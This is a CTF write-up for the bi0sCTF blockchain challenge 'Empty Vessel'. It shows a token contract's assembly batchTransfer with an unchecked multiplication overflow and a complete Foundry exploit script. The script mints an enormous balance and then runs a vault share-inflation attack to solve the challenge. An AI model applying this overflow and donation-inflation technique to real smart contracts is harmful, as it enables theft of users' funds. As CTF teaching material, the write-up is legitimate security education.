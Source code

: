 +++
title = "Empty Vessel"
date = 2025-07-07
authors = ["Anirud"]
+++

## Description

When you speak directly to metal, metal doesn't lie... but it doesn't think either.

## Solution

### Goal

```solidity
function solve()external{
        if(!staked){
            revert Setup__Not__Yet__Staked();
        }
        uint256 assetsReceived=stake.redeemAll(address(this),address(this));
        if(assetsReceived>75_000 ether){
            revert Setup__Chall__Unsolved();
        }
        solved=true;
    }

    function isSolved()public view returns (bool){
        return solved;
    }
```

When we call solve, redeemAll function is called, and the challenge is complete if less than 75000 ether is received.
The goal is to inflate the share value such that less than 75000 ether worth of shares are minted when 100000 ether is staked.

### Vulnerability

```solidity
function batchTransfer(address[] memory receivers,uint256 amount)public returns (bool){
// ...
    if lt(mload(ptr),mul(mload(receivers),amount)){ // exploit here since this is vulnerable to integer overflow during balance check
                    mstore(add(ptr,0x20),0xcf479181)
                    mstore(add(ptr,0x40),mload(ptr))
                    mstore(add(ptr,0x60),mul(mload(receivers),amount))
                    revert(add(add(ptr,0x20),0x1c),0x44)
                }
                
                for {let i:=0x00} lt(i,mload(receivers)) {i:=add(i,0x01)}{
                    mstore(ptr,mload(add(receivers,mul(add(i,0x01),0x20))))
                    mstore(add(ptr,0x20),1)
                    sstore(keccak256(ptr,0x40),add(sload(keccak256(ptr,0x40)),amount))
                }
// ...
}
```

The function is vulnerable to overflow attacks that allows bypassing balance checks. This means you can transfer very large amounts.

### Exploit Strategy

Read the setup contract to understand that the player can claim 1.746 Billion INR tokens to begin with, and the stakeAmount is 100000 ether.
We must exploit the batchTransfer function to increase our token holdings, gain ownership of the pool, and then transfer a significant amount to inflate the pool.

```solidity
pragma solidity ^0.8.20;

import {Script, console} from "forge-std/Script.sol";
import {Setup, Stake, INR} from "src/Setup.sol";

contract Solve is Script {
    function run() external {
        // Replace with the setup instance address given to you
        address setupAddr = ; // Add received setup address after creating an instance

 vm.startBroadcast();
        Setup setup = Setup(setupAddr);
        INR inr = setup.inr();
        Stake stake = setup.stake();
 address player = msg.sender;
 
 // Claim INR tokens (gives 1.74B tokens)
        setup.claim();
        inr.approve(address(stake), type(uint256).max);
        
 // Addresses for inflation attack using batchTransfer
        address[] memory receivers = new address[](2);
 receivers[0] = player;
        receivers[1] = address(0);

 // Transfer large unchecked value to self to later inflate pool
        inr.batchTransfer(receivers, 0x8000000000000000000000000000000000000000000000000000000000000000);

 // Establish ownership in the pool by depositting just 1 INR
        stake.deposit(1, player);
        // Manually transfer 50k INR to the stake pool (inflate it)
        inr.transfer(address(stake), 50_000 ether);

        // Now make Setup stake its 100k INR - this generates fewer shares due to inflated share value
        setup.stakeINR();

        setup.solve();
        // Assert and log result
        require(setup.isSolved(), "Exploit failed");
        console.log("Challenge Solved!");

        vm.stopBroadcast();
    }
}
```

We transfer 50000 ether (or more) into the pool, which increases share value, and when stakeINR stakes 100000 ether, it receives lesser shares than expected (since the pool is inflated). Finally when solve is called, the shares are liquidated at fair value, and we receive lesser tokens than we deposited.

Flag: `bi0sctf{tx:0xad89ff16fd1ebe3a0a7cf4ed282302c06626c1af33221ebe0d3a470aba4a660f}`
